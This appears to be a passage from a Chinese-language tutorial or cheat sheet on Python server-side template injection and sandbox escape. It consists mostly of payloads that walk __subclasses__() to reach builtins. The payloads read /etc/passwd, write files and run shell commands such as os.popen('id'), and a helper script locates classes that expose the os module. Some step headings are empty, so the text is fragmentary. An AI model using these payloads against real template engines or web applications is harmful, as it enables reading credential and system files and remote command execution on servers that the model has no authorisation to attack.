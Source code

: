 类中寻找类，用数组下标获取，然执行类中函数（第41个类是file类）
<hr/>
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('/etc/passwd').read()　　　　
读文件read() 可改为 写文件write() 
<hr/>
python3没有file
{{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__[%27open%27](%27/etc/passwd%27).read()}}


#### 第二步：

---


#### 第四步：

---


> 
<h3>2.4、命令执行：</h3>
<h4>第一步：</h4>
通过脚本找到包含os模块的类
<pre><code>n = 0
for i in 'str'.__class__.__mro__[1].__subclasses__():
#str处根据自己实际填
    try:
         if 'os' in i.__init__.__globals__:
             print (num,i)
         num+=1
    except:
        print ('-')
        num+=1</code></pre>
输出了编号为n的类
<hr/>
<h4>第二步：</h4>
构造paylad
''.__class__.__mro__[1].__subclasses__()[n].__init__.__globals__['os'].system('ls')#列出本级目录
''.__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].listdir('.') #读取本级目录
<hr/>
下面如果有os类，直接执行命令
[].__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.linecache.os.popen('id').read()
<hr/>
下面如果有eval，__import__等全局函数，进行执行命令
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('id').read()")
————————————————————<br/> [].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.eval("__import__('os').popen('id').read()")
————————————————————<br/> [].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.__import__('os').popen('id').read()
————————————————————<br/> [].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').popen('id').read()
